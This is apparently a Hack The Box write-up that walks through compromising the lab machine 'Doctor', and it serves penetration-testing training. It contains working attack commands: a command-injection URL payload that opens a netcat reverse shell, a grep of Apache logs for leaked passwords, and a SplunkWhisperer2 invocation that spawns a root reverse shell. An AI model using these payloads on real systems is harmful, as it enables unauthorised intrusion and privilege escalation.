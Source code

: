 ```yaml
---
layout: post
title:  "Hack The Box - Doctor Writeup"
date:   2021-02-06 06:00:00
image: 
  path: /assets/img/htb/HTB-Doctor/Header.png
author: Ryan
---
```


- Table of Contents
{:toc .large-only}

*[Hack The Box](https://hackthebox.eu) is an online platform allowing you to test your penetration testing skills and exchange ideas and methodologies with thousands of people in the security field.*  
![Header](/assets/img/htb/HTB-Doctor/Header.png)

Doctor is an Easy level linux machine. Based on the creator and community statistics, this box is fairly balanced over the type of approach we'll need to take, leaning slightly more towards the "CVE" and "Real" categories.  
![Statistics](/assets/img/htb/HTB-Doctor/Statistics.png)

## Information Gathering

#### Nmap:
By scanning the target IP with Nmap, we're able to find what ports are open (`-p`), while fingerprinting the services running and their versions (`-sV`). We're also running the default set of scripts (`-sC`), which can help find additional information and automate some of our initial steps. Once the scan is completed, nmap will write the results to our Extracts folder (`-oA`)  
`>> nmap -p22,80,8089 -sV -sC -oA Extracts/Doctor 10.10.10.209`  
![Nmap](/assets/img/htb/HTB-Doctor/nmap.png)

* **Port 22 - SSH**: Pretty standard port to see open on linux boxes, we can try to leverage this later on if we find credentials or private key.
* **Port 80 - HTTP**: A basic websever hosting what appears to be a customer-facing website advertising a doctor and his services.
* **Port 8089 - Splunkd**: [Splunk](https://www.splunk.com/), is a software platform used to search, analyze, and visualize data. Commonly used for event logs.

### Customer Website
Navigating to [10.10.10.209](10.10.10.209) allows us to take a look around the website and try to find any clues that may lead to some sort of login or feature we can leverage. One of the first peices of information we find is the email address for `info@doctors.htb`. Let's get that added to our hosts file and check it out.  
![New Host](/assets/img/htb/HTB-Doctor/Recon_Email.png)

### Doctors Secure Messaging
Navigating to the [doctors.htb](doctors.htb) site, we're shown a login screen for what appears to be some sort of internal messaging system. While we're not able to log in with any credentials, we do have the ability to create a new account lasting for 20 minutes.  
![Account Creation](/assets/img/htb/HTB-Doctor/Recon_Account.png)

One of the main features in this area of the site is the ability to post messages. After testing various types of content in the message body, we're shown the following error message:  
![URL Validation](/assets/img/htb/HTB-Doctor/Recon_URL.png)

Without observing any client-side javascript conducting this URL validation, it appears to be coming from the server. Let's try to manipulate it.

## Foothold
While [https://www.google.com](https://www.google.com) looks completely legitimate to us, HackTheBox might be blocking it because it's an external resource. Let's try using our own IP in the URL. we can set up out listener with:  
`>> nc -lvnp 1234`

Request:  
![Local URL](/assets/img/htb/HTB-Doctor/Foothold_1_URL.png)

Response:  
![Local URL](/assets/img/htb/HTB-Doctor/Foothold_1_URL2.png)

Interstingly, we recieve the same invalid error message as before, but by checking our listener, we see the target box made a call to our machine using `curl`.

### Testing for Injection
As the box's "Doctor" name and logo suggests, we should test out the possibility for injection. If the application is passing our URL directly into curl, it could be possible to use [Command Substitution](https://tldp.org/LDP/abs/html/commandsub.html) to run additional commands. Let's try adding the output of a simple `whoami` to the end of our URL to verify:  

Request:  
![Local URL](/assets/img/htb/HTB-Doctor/Foothold_1_Injection.png)

Response:  
![Local URL](/assets/img/htb/HTB-Doctor/Foothold_1_Injection2.png)

We're succesfully able to inject additional commands into the url verification. Looks like we're running as the `web` user.

### Weaponizing Our Payload
While we have the ability to run commands through the application, we're able to step up our access by starting a reverse shell. After checking for the tools available to us, we're able to accomplish this through [nc.traditional](https://www.commandlinux.com/man-page/man1/nc.traditional.1.html) and the [Internal Field Separator](https://en.wikipedia.org/wiki/Input_Field_Separators) `$IFS`. 

Listener:  
`>> nc -lvnp 8888`  

Payload:  
`http://10.10.14.2:1234/$(nc.traditional$IFS'10.10.14.2'$IFS'8888'$IFS-e$IFS'/bin/sh')`  

![Reverse Shell](/assets/img/htb/HTB-Doctor/Foothold_1_ReverseShell.png)

## Lateral Movement
Our first step now that we've got a direct connection into the machine is to upgrade the shell.  
![Upgrade Shell](/assets/img/htb/HTB-Doctor/Lateral_UpgradeShell.png)

Looking inside our `web` user's home directory, we see only a couple files related to the blog, but no flag. It appears we'll need to pivot into the user `shaun` to access the first flag.

### Enumeration
As we step through the blog files, we come across the database, `site.db`. Dumping the contents reveals that we'll want to find another way to get access, as the password is protected by a very strong hashing algorithm, bCrypt.  
![Site Databse](/assets/img/htb/HTB-Doctor/Lateral_Database.png)

While we may be unable to retrieve the user's password from the database, it could be worth looking through the application logs to see if we can find anything from before the credentials are hashed. Being a member of the `adm` group, this should be possible.  
`>> groups`  
![User Group](/assets/img/htb/HTB-Doctor/Lateral_Groups.png)  
`>> grep -i password $(find /var/log/apache2 -type f)`  
![Apache Logs](/assets/img/htb/HTB-Doctor/Lateral_Logs.png)

It's pretty common for user's to accidentally type their password into the wrong field. Since we can see this doesn't fit an email pattern, we can try passing `Guitar123` around and see if it gets us anywhere.  
![Shuan User](/assets/img/htb/HTB-Doctor/Lateral_Shaun.png)  

`shaun:Guitar123`

### User Flag
![User Flag](/assets/img/htb/HTB-Doctor/User_Flag.png)  

## Privilege Escalation
Early on, we discovered the existence of a Splunk service running on port 8089. Researching that service led to an interesting Github repository for a tool called [SplunkWhisperer2](https://github.com/cnotin/SplunkWhisperer2). Their primary focus is on "Local privilege escalation, or remote code execution, through Splunk Universal Forwarder (UF) misconfigurations". Let's try getting another reverse shell going through Splunk using shaun's credentials.  

Listener:  
`>> nc -lvnp 9999`

Payload:  
`>> python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --port 8089 --username shaun --password Guitar123 --lhost 10.10.14.2 --lport 8888 --payload 'nc.traditional 10.10.14.28 9999 -e /bin/sh'`

![PrivEsc Splunk](/assets/img/htb/HTB-Doctor/PrivEsc_Splunk.png)  
![PrivEsc Root](/assets/img/htb/HTB-Doctor/PrivEsc_Root.png)  

### Root Flag
![Root Flag](/assets/img/htb/HTB-Doctor/Root_Flag.png) 